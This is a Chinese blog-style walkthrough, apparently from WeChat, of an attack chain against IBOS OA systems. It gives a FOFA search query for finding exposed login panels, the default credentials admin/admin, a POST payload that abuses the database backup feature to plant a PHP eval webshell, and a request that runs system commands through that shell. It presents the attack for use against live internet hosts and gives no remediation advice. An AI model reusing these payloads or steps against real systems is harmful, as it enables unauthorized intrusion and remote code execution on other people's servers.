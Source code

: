 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/X75ZbSpyMh-91BXDg1Lyvw)

一、后台弱口令  

fofa 语句：  

body="IBOS" && body="login-panel"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCdNOrUefBlOwz8B4ZQeYAoynfSE8T0V9wiavaGFickOj4elnUJUtfl7GQ/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_jpg/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tC4bV4YZHVmTCdcasa40LOK5cdiaMcId0gfyF8pCyz6LibBxg5iaJDdwKzg/640?wx_fmt=jpeg)

弱口令：admin/admin

但是经过多次测试发现存在弱口令的只有一两个，这就导致后面的步骤将无法继续进行，所以多找找就好  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCickx7PFysd7XvumfTlotEyAeXdJfeRG4YxU90tjULLaC6Wk0DdZKdibw/640?wx_fmt=png)

二、任意文件上传  

这里我们已经到后台了，点通用设置 -> 数据库 -> 开启更多选项 -> 选择系统 MySQL Dump (Shell) 备份这个选项

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCCEYDpicpKYCdFCuIqgYHD7KsTuGgFUYAFEKY3tdtp2cTDyqfvkMFUFw/640?wx_fmt=png)

往下拉，点提交，抓包

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCSsdrc3b8Jf19t8iarHd9xOm81aqPxiaEzCK4T2cQiaQHVdPsRKUokUonQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCBkjcaHR06KticccBqmaiaSYKbmcGB1f0ytECHyYp6xSZ5sib01CuYMWPQ/640?wx_fmt=png)

在 post 数据里替换下面内容，上传 shell  

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&file<?php eval($_GET[a3b4]);?>">a3b4%PATHEXT:~0,1%php%26a3b4&dbSubmit=1
```

三、远程代码执行

接着当然就是访问 shell 了

```
http://xxx.xxx.xxx.xxx/a3b4.php?cmd=system(%22whoami%22);
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCoOswTD3Myqx24axfxr3miaDCWMjuPlLsiaM9uUK3xVY7ticprJoQtQicwg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tC64fzicyLrxGw5JJ66libwAwkCYysONGm9m7CBOgRAm6UibgTC8CjIiaA9w/640?wx_fmt=png)

访问个 phpinfo

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tC347AncTOATWRcicyCqicpp5aicL4HocSfOcPTPBP4Uvu9bT5cqYUib3wuw/640?wx_fmt=png)

因为是 win 的，那就再来个 dir  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCiaVz6nP2TU5zicWciasKwnpIBQVNhlh3XhlLEzUG2DM8ml99T0kLjNl0w/640?wx_fmt=png)

到这里结束啦  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tC518adRLBKCGnNDyJAXLA8icsjwLp8JQq0yQskbjoMDhNbNbAtcYDib7g/640?wx_fmt=png)

推荐一下公众号  

公众号

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

更多渗透测试，可以到星球学习啦（送 fofa 高级会员）

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv3Bic8Yb2o1xX1quwCz7f0tCh1RGQ6PlpjicJS6SIh1q6lem9m05xWwxibHYVeuAZFX43Q5C9UnMsJyA/640?wx_fmt=png)

凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数凑字数